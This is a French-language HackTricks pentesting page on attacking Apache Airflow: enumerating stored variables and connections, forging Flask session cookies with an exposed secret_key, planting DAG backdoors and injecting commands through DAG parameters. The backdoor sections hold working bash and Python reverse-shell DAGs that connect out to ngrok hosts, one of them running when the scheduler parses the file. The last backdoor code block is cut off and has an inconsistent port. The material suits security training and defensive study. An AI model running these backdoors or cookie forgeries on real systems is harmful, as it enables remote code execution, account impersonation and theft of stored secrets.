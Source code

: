 # Sécurité d'Apache Airflow

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Informations de base

[**Apache Airflow**](https://airflow.apache.org) sert de plateforme pour **l'orchestration et la planification de pipelines de données ou de workflows**. Le terme "orchestration" dans le contexte des pipelines de données signifie le processus d'arrangement, de coordination et de gestion de workflows de données complexes provenant de diverses sources. Le but principal de ces pipelines de données orchestrés est de fournir des ensembles de données traitées et consommables. Ces ensembles de données sont largement utilisés par une myriade d'applications, y compris, mais sans s'y limiter, les outils d'intelligence d'affaires, les modèles de science des données et d'apprentissage automatique, qui sont tous fondamentaux au fonctionnement des applications de big data.

En gros, Apache Airflow vous permettra de **planifier l'exécution de code lorsque quelque chose** (événement, cron) **se produit**.

### Laboratoire local

#### Docker-Compose

Vous pouvez utiliser le **fichier de configuration docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) pour lancer un environnement docker apache airflow complet. (Si vous êtes sur MacOS, assurez-vous de donner au moins 6 Go de RAM à la VM docker).

#### Minikube

Une façon simple de **faire fonctionner apache airflow** est de l'exécuter **avec minikube** :
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuration d'Airflow

Airflow pourrait stocker des **informations sensibles** dans sa configuration ou vous pouvez trouver des configurations faibles en place :

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC d'Airflow

Avant de commencer à attaquer Airflow, vous devez comprendre **comment fonctionnent les permissions** :

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attaques

#### Énumération de la Console Web

Si vous avez **accès à la console web**, vous pourriez être en mesure d'accéder à certaines ou à toutes les informations suivantes :

* **Variables** (Des informations sensibles personnalisées pourraient être stockées ici)
* **Connexions** (Des informations sensibles personnalisées pourraient être stockées ici)
* Accédez-y dans `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Des informations sensibles comme le **`secret_key`** et des mots de passe pourraient être stockées ici)
* Liste des **utilisateurs et rôles**
* **Code de chaque DAG** (qui pourrait contenir des informations intéressantes)

#### Récupérer les Valeurs des Variables

Les variables peuvent être stockées dans Airflow afin que les **DAGs** puissent **accéder** à leurs valeurs. C'est similaire aux secrets d'autres plateformes. Si vous avez **suffisamment de permissions**, vous pouvez y accéder dans l'interface graphique à `http://<airflow>/variable/list/`.\
Airflow affichera par défaut la valeur de la variable dans l'interface graphique, cependant, selon [**ceci**](https://marclamberti.com/blog/variables-with-apache-airflow/), il est possible de définir une **liste de variables** dont la **valeur** apparaîtra sous forme de **astérisques** dans l'**interface graphique**.

![](<../../.gitbook/assets/image (164).png>)

Cependant, ces **valeurs** peuvent toujours être **récupérées** via **CLI** (vous devez avoir accès à la base de données), exécution de **DAG** arbitraire, **API** accédant au point de terminaison des variables (l'API doit être activée), et **même l'interface graphique elle-même !**\
Pour accéder à ces valeurs depuis l'interface graphique, il suffit de **sélectionner les variables** que vous souhaitez accéder et de **cliquer sur Actions -> Exporter**.\
Une autre façon est d'effectuer un **bruteforce** sur la **valeur cachée** en utilisant le **filtrage de recherche** jusqu'à ce que vous l'obteniez :

![](<../../.gitbook/assets/image (152).png>)

#### Escalade de Privilèges

Si la configuration **`expose_config`** est définie sur **True**, à partir du **rôle Utilisateur** et **au-dessus**, on peut **lire** la **configuration sur le web**. Dans cette configuration, le **`secret_key`** apparaît, ce qui signifie que tout utilisateur avec cela valide peut **créer son propre cookie signé pour usurper n'importe quel autre compte utilisateur**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE dans le worker Airflow)

Si vous avez **un accès en écriture** à l'endroit où les **DAGs sont sauvegardés**, vous pouvez simplement **en créer un** qui vous enverra un **reverse shell.**\
Notez que ce reverse shell sera exécuté à l'intérieur d'un **conteneur de worker airflow** :
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE dans le planificateur Airflow)

Si vous définissez quelque chose pour être **exécuté à la racine du code**, au moment de l'écriture de ce document, il sera **exécuté par le planificateur** après quelques secondes après l'avoir placé dans le dossier du DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Création de DAG

Si vous parvenez à **compromettre une machine à l'intérieur du cluster DAG**, vous pouvez créer de nouveaux **scripts DAG** dans le dossier `dags/` et ils seront **répliqués dans le reste des machines** à l'intérieur du cluster DAG.

#### Injection de Code DAG

Lorsque vous exécutez un DAG depuis l'interface graphique, vous pouvez **passer des arguments** à celui-ci.\
Par conséquent, si le DAG n'est pas correctement codé, il pourrait être **vulnérable à l'injection de commandes.**\
C'est ce qui s'est passé dans ce CVE : [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tout ce que vous devez savoir pour **commencer à chercher des injections de commandes dans les DAGs** est que les **paramètres** sont **accédés** avec le code **`dag_run.conf.get("param_name")`**.

De plus, la même vulnérabilité pourrait se produire avec des **variables** (notez qu'avec suffisamment de privilèges, vous pourriez **contrôler la valeur des variables** dans l'interface graphique). Les variables sont **accessibles avec** :
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
S'ils sont utilisés par exemple à l'intérieur d'une commande bash, vous pourriez effectuer une injection de commande.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
